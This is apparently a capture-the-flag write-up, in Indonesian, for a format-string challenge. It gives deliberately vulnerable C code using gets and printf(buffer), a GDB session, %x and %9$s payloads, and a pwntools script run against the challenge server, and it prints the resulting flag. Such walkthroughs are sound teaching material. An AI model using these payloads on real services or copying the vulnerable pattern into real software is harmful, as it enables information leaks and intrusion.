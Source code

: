 Mari bermain input-inputan bersama mimin, Mimin sebentar aja yah :( lelah soalnya.

```
nc 103.157.96.13 2332
```

#### Source 

```c
#include <stdio.h>
#include <stdlib.h>

int main() {
    char * flag = "CTFR{REDACTED}";
    char buffer[24];
    gets(buffer);
    printf(buffer);
    return 0;
}
```

compile biar bisa didebug dulu

```bash
 gcc -fno-stack-protector -z execstack -o src src.c  
```

 Load ke GDB
```
$ gdb -q src                                        
Reading symbols from src...
(No debugging symbols found in src)
gdb-peda$ pd main
Dump of assembler code for function main:
   0x0000000000001145 <+0>:     push   rbp
   0x0000000000001146 <+1>:     mov    rbp,rsp
   0x0000000000001149 <+4>:     sub    rsp,0x20
   0x000000000000114d <+8>:     lea    rax,[rip+0xeb0]        # 0x2004
   0x0000000000001154 <+15>:    mov    QWORD PTR [rbp-0x8],rax
   0x0000000000001158 <+19>:    lea    rax,[rbp-0x20]
   0x000000000000115c <+23>:    mov    rdi,rax
   0x000000000000115f <+26>:    mov    eax,0x0
   0x0000000000001164 <+31>:    call   0x1040 <gets@plt>
   0x0000000000001169 <+36>:    lea    rax,[rbp-0x20]
   0x000000000000116d <+40>:    mov    rdi,rax
   0x0000000000001170 <+43>:    mov    eax,0x0
   0x0000000000001175 <+48>:    call   0x1030 <printf@plt>
   0x000000000000117a <+53>:    mov    eax,0x0
   0x000000000000117f <+58>:    leave  
   0x0000000000001180 <+59>:    ret    
End of assembler dump.
gdb-peda$ b *main+48
Breakpoint 1 at 0x1175
gdb-peda$ r
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffddb0 ("AAAAAAAA")
...
0024| 0x7fffffffddc8 --> 0x555555556004 ("CTFR{REDACTED}")
...
[------------------------------------------------------------------------------]
```

sudah jelas kalo harus nge-leak flag dari format string yang ada di alamat `0x555555556004` dari dalam stack, karena di compile ke 64 bit, coba masukin input `%x` sampe kira-kira alamat `0x55556004` muncul dibagian akhir

```bash
python2 -c "print '%x' * 9" | ./src 
```

Dan hasilnya

```bash
555592a10f7fa8980ffffde6007825782578257825ff00782555556004
```

posisi alamat `0x55556004` pada stack dengan urutan ke 9, jadi tinggal di baca aja stringya karena berdasarkan sourcenya flagnya berbentuk string

```bash
$ ./src
%9$s
CTFR{REDACTED} 
```
karena di local jalan, coba di remote nya pake pwntool atau langsung juga bisa

```bash
$ nc 103.157.96.13 2332
Please Input :
%9$s
CTFR{f0rm4t_5tr1ng_3xpl01t_15_4w3s0m3}
```

kalo dengan pwntools

```python
from pwn import *
p = remote('103.157.96.13', 2332)
p.sendline("%9$s")
res = p.recvall()
log.info(res)
p.close()
```

```bash
$ python2 solve.py                 
[+] Opening connection to 103.157.96.13 on port 2332: Done
[+] Receiving all data: Done (53B)
[*] Closed connection to 103.157.96.13 port 2332
[*] Please Input :
    CTFR{f0rm4t_5tr1ng_3xpl01t_15_4w3s0m3}
```

Flag
```
CTFR{f0rm4t_5tr1ng_3xpl01t_15_4w3s0m3}
```